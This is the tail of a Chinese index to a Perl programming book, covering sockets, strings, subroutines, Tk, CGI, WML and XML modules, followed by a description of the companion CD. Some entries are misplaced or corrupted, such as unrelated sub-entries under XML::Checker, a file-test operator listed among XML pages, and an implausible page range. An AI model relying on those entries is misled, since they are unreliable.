服务器端包含，982，996–998
SERVER_ADMIN 变量，1020
SERVER_NAME 变量，1020
SERVER_PORT 变量，1020
SERVER_PROTOCOL 变量，1020
服务器，846–848
- 使用 IO::Socket 创建，868–871
- 从服务器读取，867–868，878
- Unix 域套接字，883–885
- 向服务器写入，866–867，877–878
SERVER_SOFTWARE 变量，1020
set 方法，791
setattr 方法，POSIX::Termios 模块，525
setAttribute 方法，XML::DOM 模块，1135
setcc 方法，POSIX::Termios 模块，526
setiflag 方法，POSIX::Termios 模块，526
SetControlChars 函数，537，540
setHandlers 方法，XML::Parser 模块，1148
size 元素，111
sleep 函数，512–513
切片，334–335
滑块，657
SOAP，1162，1166–1167，1189–1193
SOAP::Parser 模块，1191–1193
SOAP 模块，1191
sockaddr_in 函数，877，882
sockaddr_un 函数，883
socket 函数，创建 TCP 客户端，876
Socket 模块，597，848
- 使用其创建 TCP 客户端，876–879
- 使用其创建 TCP 服务器，879–882
socketpair 函数，Socket 模块，862–865
套接字对，862–865
套接字编程，846–848
- 双向客户端/服务器应用，871–876
- 检查套接字是否可读或可写，885–886
- 套接字对，862–865
- TCP 客户端，865–868，876–879
- TCP 服务器，868–871，879–882
- UDP 客户端，886–887
- UDP 服务器，887–888
- Unix 域套接字，882–885
SOMAXCONN，879
sort 函数，118，134–135，147–148，353，490–492
sorter 子例程，1045
排序，6
- 数组，118
- 数据库，725–726
STDERR，523，532，943
STDERR 文件句柄，31
STDIN，532–533，891
STDIN 文件句柄，31，35，179
STDOUT，531–532，891
STDOUT 文件句柄，31
STDOUT_TOP 格式，337
S<text> 命令，369
Storable 模块，579，581，693，717
存储
- 将数据存储在实例变量中，789–790
- 将数据存储在Web页面中供脚本调用间使用，1005–1006
- 将数据结构存储在磁盘上，717
- 将文件嵌入程序代码中存储，572–574
- 将硬引用存储在哈希中，631–632
store 函数，579，581，717
STORE 方法，808，817，819，820，833，835
STORESIZE 方法，819
strftime 函数，593
strict 模块，627–629
strict 编译指示，53，598
字符串比较运算符，160，353，490
字符串处理运算符，231
字符串插值，69–73
字符串长度，346–347，481
字符串字面量，66–67
字符串运算符，按位，166–167
字符串，48，81–82
- 比较，352–354
- 转换首字母大小写，343–344，479–481
- 提取子串，267
- 用于随机访问的定长字符串，581–583
- 格式，350–352，493–494
- 单个字符，356–357
- 将列表拼接为字符串，81–82，478
- 长度，346–347
- 长度，346–347，481
- pack 函数，60，347–350，355，468，481–483，502，559–560，582，583
- 引用运算符，359–365
- 反转，357，488
- 标量变量中的字符串，64–68
- 搜索，344
- 拆分为字符串数组，492–493
- 拆分为列表，82–84
- 子串，345–346
- Unicode 值，354–355
- unpack 函数，60，347–350，483，502–503，582，583
- 解包，356
Tie::SubstrHash 模块，597
- 加密，357–359
sub 关键字，286–287
子类，833
提交按钮，HTML 表单，931–932
submit 方法，CGI.pm 模块，903，931
子模块，594
子例程解引用符，283
子例程
- 匿名子例程，318–319，379，391–392
- 参数，458–459
- 模块中的自动加载，751–755
- 调用，288–289
- 递归调用，310–311
- 调用前检查是否存在，289–290
- 检查所需的返回上下文，315–316
- 比较子例程，492
- Curses 子例程，517–519
- 声明，282–284
- 参数的默认值，295–296
- 定义，286–287
- 派发表，319
- 模拟，754–755
- 调用失败，289–299
- 获取名称，308–310
- 导入，282
- 内联函数，316
- 词法作用域变量，300，302，307
- 命名参数，模拟，316–317
- 嵌套，311–312
- 面向对象编程中的子例程，775
- 可选参数，286
- 重写，317–318
- 按引用传递，312–313，401–403
- 向子例程传递文件句柄，574–576
- 传递符号表条目，314–315
- 原型，282，285–286
- 读取传入的参数，290–294
- 重定义，320，748
- 对子例程的引用，383–384
- 按引用返回值，313–314
- 返回值，280–281，296–298
- 设置作用域，278–279，299–302，306
- 将Shell命令作为子例程，626–627
- undef，208–209
- 可变数量的参数，294–295
- 编写，277–278
subs 编译指示，317–318，598
下标分隔符，419，430–431
substr 函数，345–346，356，496–497
子串
- 提取，267
- 使用 substr 获取，345–346，496–497
- index 函数，344，475–476
- 位置，475
subtract 方法，838–839
减法运算符，145，155，836，838–839
suid，以suid权限运行CGI脚本，954
SUPER 类，815
swapxy 子例程，315
switch 语句，221–223
开关。参见命令行开关。
Symbol 模块，597
符号表，453。另见主符号表。
- 使用符号表获取引用，393–395
- 主符号表变量，453
符号表条目，138–139，314–315
符号引用，377–378
- 创建，406–408
- 禁止，408–409
符号一元运算符，145，151–152
符号
- 自动导入到模块中，743
- 从模块导出，741–743，745–746
- 使用包名限定，746–748
语法
- 数组，695
- CGI 脚本，940–941
- 使用 -c 开关检查，27
- 当前语法检查变量，438
- XML，1077，1081
Sys::Hostname 模块，597
Sys::Syslog 模块，597
sysread 函数，56，560
系统调用，431，445
system 函数，510
T
- \t，33，66，238，360
- -T 文件测试运算符，158，620
- -t 文件测试运算符，157，158
- -T 开关，23
- -t 开关，977
- $^T 变量，419，441–442
制表位，630
表格，在WML中创建，1201–1202
污染机制，CGI 脚本，951–953
被污染变量，951–952
taintperl，951–952
tan 函数，483
tar 文件，761
Tcl，634
Tcl 工具包。参见 Tk 模块。
TCP 客户端，使用 IO::Socket 创建，865–868，876–879
TCP 服务器
- 使用 IO::Socket 创建，868–871，879–882
- 使用 Socket 模块创建，879–882
tell 函数，564
telldir 函数，588
Telnet，861–862
临时文件名，577
临时变量，302–304
Term::ANSIColor 模块，529
Term::Cap 模块，5，533–535，597
Term::Complete 模块，597
Term::ReadKey 模块，535–540
Term::ReadLine 模块，541，597
Term 包，516
终端驱动控制，535–540
终端屏幕处理接口，516
术语，优先级，145，147–148
三元条件运算符，143
三元运算符，143
Test::Harness 模块，597
文本
- 在WML段落中对齐文本，1172–1173
- 居中，331–332
- 格式化。参见格式。
- 使用WML输入，1194–1197
- 两端对齐，328–331
- 多行文本的模式匹配，264–265
- 文本中的制表位，630
- 换行，630–631
Text::Abbrev 模块，597，629–630
Text::ParseWords 模块，597
Text::Soundex 模块，597
Text::Tabs 模块，597，630
Text::Wrap 模块，597，630–631
基于文本的网页计数器，958–961
文本编辑器，12
文本域，CGI.pm 模块，920–921
文本文件，12
- 可作为数据库使用，726–727
- 向其中写入和读取数组，579–580
- 向其中写入和读取哈希，580–581
Text 方法，644
文本节点，1091，1110–1111
文本切片，334–335
文本组件，644–646
文本区域，894
<TEXTAREA> 标签，895
textarea 方法，CGI.pm 模块，894，899，922
textfield 方法，CGI.pm 模块，920–921
Tgoto 方法，Term::Cap 模块，534–535
Tie::Hash 模块，597
Tie::IxHash 模块，130，631，725
Tie::RefHash 模块，597，631–632
Tie::Scalar 模块，597
Tie::SubstrHash 模块，597
- 加密，357–359


## tie函数 691, 692, 723–725
## 翻译
tr/// 运算符，234, 252
邮件，860
## 翻译器 365, 366
%ENV 变量，455–456
## TIEARRAY 类方法 818
## TIEHASH 方法 833–834
## TIESCALAR 方法 808, 816
## 三角函数
反余弦，470
反正切，466, 484
余弦，469–470
Math::Trig 模块，469, 470, 484, 498–500
POSIX::acos 函数，470
POSIX 函数，484
正弦，489
最大文件描述符变量，419, 437
操作系统名称变量，419, 439
真实用户 ID 变量，419, 449–450
「蒂姆·托迪」口号，36
查找 Perl，15–16
安装模块，600–603
## Time::gmtime 模块 597
## Time::Local 模块 597, 632
I/O 处理，510
## 脚本开始运行的时间变量 419, 441–442
## 时间转换 632
## 时间模块 632
## Time::localtime 模块 597
## Time::tm 模块 597
## 计时器
在 WML 中创建，1202–1204
## 时间
加减运算，611–612
## time 函数 442, 497–498
## Tk
-command 选项，638, 648, 674
-accelerator 选项，676
-background 选项，678
-label 选项，674
-u 文件测试运算符，158
-U 开关，23
-u 开关，23
将 Tk 事件绑定到代码，648–649
级联菜单，676–681
复选框菜单，676–681
复选框，650, 651–654
对话框，681–683
显示位图，667
显示图像，665–666
标签控件，640–642
菜单快捷键，676–681
菜单控件，673–675
pack 方法，646–648, 661, 679
单选按钮菜单，676–681
单选按钮，650–651, 653
例程，635
指定索引，646
控件，634, 637, 640–646, 648
用框架排列，668–670
用 pack 排列，646–648
用 place 排列，670–671
按钮控件，641–642
画布控件，662–664
复选框控件，650, 651–654
输入框控件，671–672
列表框控件，654–657
滑块控件，657–660
滚动条控件，660–662
文本控件，644–646
## Tk::MainWindow 模块 640
## Tk 复选框 650, 651–654
## Tk 事件绑定到代码 648–649
## Tk 标签控件 640–642
## Tk 模块 634–639
## Tk 单选按钮 650–651, 653
## Tk 例程 635
## Tk 指定索引 646
## Tk 控件 634, 637, 640–646, 648
用框架排列，668–670
用 pack 排列，646–648
用 place 排列，670–671
## 切换
tie 函数，691, 692, 723–725
untie 函数，820
## tr/// 运算符的翻译 234, 252
## 翻译器 365, 366
## 故障排除
避免 Windows 下脚本自动关闭，17, 40–41
运行 Perl 脚本，18
## 截断为整数 476–477
## 真值 58–59
## 二维数组 431, 687–689, 695–697
文本文件中的，12
## 类型转换运算符 182
## 类型通配符 52, 57, 97–98
已定义，393
解引用，397
引用，384–385
符号表条目，138–139, 314–315
使用，137–139
## typeof 运算符 405
## U
\U，66, 238, 361
\u，66, 361
%U，351
%u，351
-u 文件测试运算符，158
-U 开关，23
-u 开关，23
uc 函数，342–343, 388, 500–501
ucfirst 函数，343–344, 501–502
uid $> 变量，419, 451
uid 元素，111, 157, 158
ul 方法（CGI.pm 模块），917
一元函数，446
一元运算符，143, 145, 839–840
具名一元运算符，156–157
符号一元运算符，151–152
下划线字符 (_)，794, 809
undef，56–57, 59, 109, 116, 298–299
undef 函数，156
非格式化多行输出，335–336
Unicode，64–66
UTF-8 编码，66
ungetc 方法，562
Unix 域套接字，服务器，883–885
unless 修饰符，193, 212, 213
unless 语句，191–193
unlink 函数，585–586
unpack 函数，60, 347–350, 483, 502–503, 582, 583
unshift 函数，100, 105, 106
数据去污染，953
until 循环，207–209
until 修饰符，212, 213
上箭头，522
上传，使用 CGI 脚本，931–932, 1017, 1034–1038
大写上箭头命令，70, 431–432, 626, 744, 997, 1016
URI::URL 模块，1225
UDP 客户端，886–887
UDP 服务器，887–888
use 语句，566, 593–594, 598, 599
use strict refs 编译指示，315, 385, 575, 627–628
use strict 'subs' 编译指示，628–629
use strict 'vars' 编译指示，302, 594, 628, 690
use vars，632
use warnings 编译指示，445
<User>::grent 模块，597
User::pwent 模块，597
用户自定义数据类型，使用匿名哈希模拟，392–393
用户 ID，参见 uid。
<UL> 标签，917
## V
有效性，XML 文档，1076–1079
**值** 函数，131, 132, 135, 201, 504
Values 控件状态变量，654
### 变量
- 废弃，422
- 动态作用域变量，300, 303
- 格式变量，337–338
- 词法作用域变量，300, 302, 307
- 持久变量，307–308
- 私有，794–795
- 静态变量，307–308
- 临时变量，302–304
- **vars** 编译指示，598
- **vec** 函数，463, 502, 504–505
- 向量，504
- **VERSION** 方法，822–823
### 版本
- 当前 Perl 版本，8, 434
- 模块版本，750–751
- 编号系统，5
- 作为字符串变量的 Perl 版本，419, 442–443
- **vmsish** 编译指示，598
## W
\w，238, 254, 259
\w+，238
-W 文件测试运算符，158
-w 开关，15, 16, 23, 24–25, 443
$^W 变量，419, 443–444
W3C，1072, 1079
W3C 文档对象模型（DOM），1089, 1090
**期望数组** 函数，298, 315–316, 811
WAP，1167
**警告** 函数，541–542
警告检查变量，445
警告开关的当前值，419, 443–444
**${WARNING_BITS}** 变量，445
WBMP 格式，1204
「弱」引用，6, 410
WeakRef 包，410
Web 浏览器。*参见* 浏览器。
Web 页面计数器
- 基于图像的，961–966
- 基于文本的，958–961
网页。*另见* 互联网；互联网编程。
- 从网页调用 CGI 脚本，932–934
- CGI 编程，891–943
- 包含 HTML 表单，902–903
- 获取和解析，1215–1217
- 获取其中的链接，1217–1219
- 使用 **HTTP::Request** 模块获取，1219–1221
- 使用 **IO::Socket** 模块获取，1221–1223
- 使用 **LWP::UserAgent** 模块获取，1219, 1221
- **LWP::Simple** 模块，852–853
- 镜像站点，1223–1224
- 其中的 PerlScript，913
- 刷新率，986–987
- 在脚本调用间存储网页数据，1005–1006
- 从代码提交 HTML 表单，1224–1231
- 使用 CGI 脚本上传，931–932, 1017, 1034–1038
Web 服务器，创建迷你 Web 服务器，1231–1233
网站搜索，CGI 脚本，1017, 1039–1047
格式良好的 XML 文档，1076–1079
**while(<>)** 循环，203
**while** 循环，35, 59, 104, 181, 185–186, 193, 202–207, 214, 218, 262
**while** 修饰符，212, 214, 215
**while** 语句，37
**while(<FILEHANDLE>)** 循环，203
空白，255, 270, 1091–1092
空白节点，1091–1092
**who** 命令，1016–1107, 1022–1024
宽字符系统调用，445
宽字符，64
**${WIDE_SYSTEM_CALLS}** 变量，445
控件。*参见* Tk 控件。
通配符，242
**Win32::File::GetAttributes** 函数，584
**Win32::File::SetAttributes** 函数，584
### 警告
- 警告开关变量的当前值，419, 443–444
- 显示，541–542
- 信号处理器变量，457–458
- **-w** 开关，23, 24–25, 443
- **警告** 函数，541–542
### Windows
- 避免脚本自动关闭，17, 40–41
- 其中的反斜杠，547
- 查找 Perl，17
- 在 Windows 系统上安装模块，603–604
- 运行 Perl 脚本，19
- 其中的文本文件，12
- **Win32::File::GetAttributes** 函数，584
- **Win32::File::SetAttributes** 函数，584
无线应用协议。*参见* WAP。
无线标记语言。*参见* WML。
**WML**，1167–1175, 1193–1210
- 在段落中对齐文本，1172–1173
- 注释，1170
- 使用 WML 创建超链接，1193–1194
- 创建表格，1201–1202
- 创建计时器，1202–1204
- 创建 WML 按钮，1173–1175
- 文档元素，1170
- 格式化其中的文本，1171–1172
- 图像，1204–1205
- 使用表单接口到 Perl，1208
- 互联网资源，1167
- 向 Perl 传递多个参数，1209–1210
- 文本输入，1194–1197
- 使用选择元素，1197–1201
- 创建 WML 卡片，1169–1171
- WML 文档，1169
- WML 元素，1167–1169, 1197–1201
万维网联盟。*参见* W3C。
文本换行，630–631
写累加器变量，419, 435–436
**write** 函数，323, 324, 328–330, 542–543, 554–555
**write** 语句，333, 334, 338, 340
## X
**%X**，351
**%x**，351
**-X** 目录开关，24
**-x** 目录开关，23
**-X** 文件测试运算符，158
**-x** 文件测试运算符，158
**x** 修饰符，251
**x** 运算符，145, 154
**x** 重复运算符，100
**$^X** 变量，419, 444
**\x1**，238
**\x1b**，33, 66, 360
**X<index>** 命令，369
### XML，1072, 1086
- 外观，1072–1076
- 属性节点，1109–1110
- 属性，1075–1076, 1083–1086, 1135–1136
- **CGI::XMLForm** 模块，1087, 1163–1165, 1186–1187
- CGI 与 XML，1162–1165, 1176–1189
- 创建新 XML 元素，1131–1135
- 文档元素，1077, 1080
- 文档节点，1090, 1106–1107
- 文档，*参见* XML 文档
- 文档类型定义（DTD），1077, 1079, 1080–1083
- 元素节点，1090, 1107–1109, 1112–1113
- 元素，*参见* XML 元素
- 错误，1141–1144
- 相关互联网资源，1072
- 解析，*参见* XML 解析
- Perl 与 XML，1086–1089
- Perl 模块，1086–1089
- 处理指令节点，1111–1112
- 处理指令，1093, 1154
- 查询，1187–1189
- SAX，1119–1122
- 设置 MIME 类型，1182
- SOAP，1162, 1166–1167, 1189–1193
- 语法，1077, 1081
- 文本节点，1110–1111
- WML，1167–1175, 1193–1210
- 写入，1186–1187
- **XML::DOM** 模块，*参见* XML::DOM 模块
- **XML::Parser** 模块，*参见* XML::Parser 模块
- **XML::Catalog** 模块，1087
- **XML::CGI** 模块，1087
- **XML::Checker::Parser** 模块，1087
### XML::Checker 模块
- 按位 **与** 值，162–163, 164
- 按位 **或** 运算符，163
- 传递给 **XSUBs**，766–767
- 返回，280–281, 296–298
- 反转哈希中的键和值，133–134
- **值** 函数，131, 132, 135, 201, 504
- sendmail 应用程序，860–861, 974–979
- 添加或去掉回车符，570–573

**XML::DOM::Attr 接口**, 1096, 1097
**XML::DOM::CDATASection 接口**, 1098
**XML::DOM::CharacterData 接口**, 1096, 1097
**XML::DOM::Comment 接口**, 1097
**XML::DOM::Document 接口**, 1100–1101
**XML::DOM::DocumentFragment 接口**, 1098
**XML::DOM::DocumentType 接口**, 1098, 1099
**XML::DOM::DOMImplementation 接口**, 1100
**XML::DOM::Element 接口**, 1096, 1097
**XML::DOM::Entity 接口**, 1098, 1099
**XML::DOM::NamedNodeMap 接口**, 1094, 1096
**XML::DOM::NamedNodeMap** 模块, 1087
**XML::DOM::NodeList 接口**, 1094, 1096
**XML::DOM::NodeList** 模块, 1087
**XML::DOM::Notation 接口**, 1098
**XML::DOM::Parser** 模块
  **parsefile** 方法, 1101
  **printToFile** 方法, 1102
  **toString** 方法, 1101
**XML::DOM::PerlSAX** 模块, 1087
**XML::DOM::ProcessingInstructions 接口**, 1098
**XML::DOM::Text** 接口, 1097, 1098
**XML::DOM::ValParser** 模块, 1087
**XML::DOM** 模块, 1072, 1086, 1087, 1089–1093
  **appendChild** 方法, 1131–1132, 1134
  属性节点, 1109–1110
  **createElement** 方法, 1133
  **createTextNode** 方法, 1133–1134
  创建新 XML 属性, 1135–1136
  创建新 XML 元素, 1131–1135
  删除 XML 元素, 1140–1141
  文档节点, 1106–1107
  元素节点, 1107–1109, 1112–1113
  错误, 1141–1144
  功能, 1089
  **getAttributeNode** 方法, 1130
  **getAttributes** 方法, 1109
  **getChildNodes** 方法, 1108, 1138
  **getData** 方法, 1111, 1112
  **getElementsByTagName** 方法, 1127–1129, 1137
  **getFirstChild** 方法, 1125
  **getNextSibling** 方法, 1125–1126
  **getNodeName** 方法, 1107–1108, 1109
  **getNodeValue** 方法, 1109, 1111, 1127, 1130
  **getTarget** 方法, 1111, 1112
  **insertBefore** 方法, 1131
  安装, 1089
  接口, 1094–1101
  **lastSibling** 方法, 1091
  方法, 1094–1101
  修改文档, 1119, 1127–1141
  **NamedNodeMap** 对象, 1094, 1096, 1109
  导航方法, 1118–1119, 1123–1127
  **nextChild** 方法, 1091
  **NodeList**, 1137, 1138
  **NodeList getLength** 方法, 1129
  解析, 1094, 1101–1106
  **printToFile** 方法, 1134
  处理指令节点, 1111–1112
  **removeChild** 方法, 1140
  **replaceChild** 方法, 1136–1139
  替换 XML 元素, 1136–1139
  **setAttribute** 方法, 1135
  文本节点, 1110–1111
  使用, 1094–1101
**XML::Driver::HTML** 模块, 1087
**XML::DT** 模块, 1087
**XML::Edifact** 模块, 1087
**XML::Encoding** 模块, 1087
**XML::ESISParser** 模块, 1087
**XML::Filter::DetectWS** 模块, 1087
**XML::Filter::Heckle** 模块, 1087
**XML::Filter::Reindent** 模块, 1087
**XML::Filter::SAXT** 模块, 1087
**XML::Generator** 模块, 1087
**XML::Grove::AsCanonXML** 模块, 1087
**XML::Grove::AsString** 模块, 1087
**XML::Grove::Builder** 模块, 1088
**XML::Grove::Factory** 模块, 1088
**XML::Grove::Path** 模块, 1088
**XML::Grove::PerlSAX** 模块, 1088
**XML::Grove::Sub** 模块, 1088
**XML::Grove::Subst** 模块, 1088
**XML::Grove** 模块, 1087
**XML::Handler::BuildDOM** 模块, 1088
**XML::Handler::CanonXMLWriter** 模块, 1088
**XML::Handler::Composer** 模块, 1088
**XML::Handler::PrintEvents** 模块, 1088
**XML::Handler::PyxWriter** 模块, 1088
**XML::Handler::Sample** 模块, 1088
**XML::Handler::Subs** 模块, 1088
**XML::Handler::XMLWriter** 模块, 1088
**XML::Handler::YAWriter** 模块, 1088
**XML::Node** 模块, 1088
**XML::Parser::Expat** 模块, 1088
**XML::Parser::PerlSAX** 模块, 1088
**XML::Parser::PyxParser** 模块, 1088
**XML::Parser** 模块, 1072, 1086, 1088, 1145–1150
  XML 元素起始部分, 1151–1152
  XML 文档末尾, 1154
  XML 元素末尾, 1153
  错误, 1159–1160
  处理器, 1145–1146
  属性处理, 1152
  文本处理, 1153–1154
  **new** 方法, 1146–1148
  **parse** 方法, 1148
  **parse_done** 方法, 1149
  **parse_more** 方法, 1148
  **parse_start** 方法, 1148
  **parsestring** 方法, 1148
  处理指令, 1154
  SAX 解析, 1155–1157
  **setHandlers** 方法, 1148
  XML 文档开头, 1150–1151
**XML::PatAct::Amsterdam** 模块, 1088
**XML::PatAct::MatchName** 模块, 1088
**XML::PatAct::ToObjects** 模块, 1088
**XML::PYX** 模块, 1088
**XML::QL** 模块, 1088
**XML::RegExp** 模块, 1088
**XML::Registry** 模块, 1088
**XML::RSS** 模块, 1088
**XML::SAX2Perl** 模块, 1088
**XML::Simple** 模块, 1088
**XML::Stream::Namespace** 模块, 1088
**XML::Stream** 模块, 1088
**XML::Template** 模块, 1088
**XML::Twig** 模块, 1089
**XML::UM** 模块, 1089
**XML::Writer** 模块, 1089
**XML::XPath::Boolean** 模块, 1089
**XML::XPath::Builder** 模块, 1089
**XML::XPath::Literal** 模块, 1089
**XML::XPath::Node** 模块, 1089
**XML::XPath::NodeSet** 模块, 1089
**XML::XPath::Number** 模块, 1089
**XML::XPath::PerlSAX** 模块, 1089
**XML::XPath::XMLParser** 模块, 1089
**XML::XPath** 模块, 1089
**XML::XQL::Date** 模块, 1089
**XML::XQL::DOM** 模块, 1089
**XML::XQL** 模块, 1089
**XML::XSLT** 模块, 1089
XML 属性, 1075–1076, 1083–1086, 1135–1136, 1152
XML 文档, 1118–1119
  创建, 1072–1076
  末尾, 1154
  错误, 1141–1144
  文本处理, 1153–1154
  修改, 1119, 1127–1141
  导航, 1118–1119, 1123–1127, 1157–1159
  读取, 1176
  SAX, 1157–1159
  开头, 1150–1151
  有效性, 1076–1079
**XML::Parser** 模块, 1150–1151, 1153–1154
XML 元素节点, 1090, 1107–1109, 1112–1113
XML 元素, 1077
  起始部分, 1151–1152
  创建新元素, 1131–1135
  删除, 1140–1141
  替换, 1136–1139
  搜索特定元素, 1127–1129
**-z** 文件测试运算符, 1151–1152, 1153
XML 模块列表, 1086–1089
**XML::DOM** 模块。*参见* **XML::DOM** 模块。
**XML::Parser** 模块。*参见* **XML::Parser** 模块。
XML 解析器, 1086
XML 解析, 1094, 1101–1106
  SAX 解析, 1119, 1121–1122, 1145, 1149–1150
  空白, 1091–1092
**XML::Parser** 模块。*参见* **XML::Parser** 模块。
XML 模式, 1077
**XMLNews::HTMLTemplate** 模块, 1089
**XMLNews::Meta** 模块, 1089
**Xor** 运算符, 164–166, 167, 178
**XS** 编译器, 763
**XS** 接口, 763
**XSLT**, 1093, 1163–1164
**XSUB ST** 宏, 768
**xsubpp**, 763
**XSUBs**, 763, 765, 766–770
**y///** 构造, 74
**y///** 运算符, 234, 252
**ytalk**, 950
**Z<>** 命令, 369
**\z** 断言, 245, 257
**\z** 断言, 245, 257
**-z** 文件测试运算符, 158

## 光盘内容

《Perl 黑宝书（第2版）》的配套光盘中收录了专门甄选的内容，旨在提升本书的实用性。书中所有代码按章节整理在对应目录中，方便你查阅。
所有源码均提供两个版本，每章对应一个 DOS 子目录版本和一个 Unix 子目录版本。两个版本仅存在文本格式的差异：DOS 版本的源码文件每行末尾采用符合 DOS 标准的回车/换行符，Unix 版本的源码文件每行末尾仅使用符合 Unix 标准的换行符。提供两个版本是为了让你能选择最适合自己编辑程序的版本，除格式差异外，两个版本的源码文件内容完全一致。
其中名为 code *XX* 的文件（*XX* 为章节编号）收录了对应章节的代码。若要运行第 *XX* 章的某个示例，只需将 code *XX* 中对应的代码复制到新文件，再用 Perl 运行该新文件即可。注意部分代码运行前需要更新其中的文件路径或 URL，具体细节可参阅本书。
无需特殊安装准备，只需将你需要使用的文件复制到硬盘即可。

### 系统要求
### *软件*
- 可运行的 Perl 环境
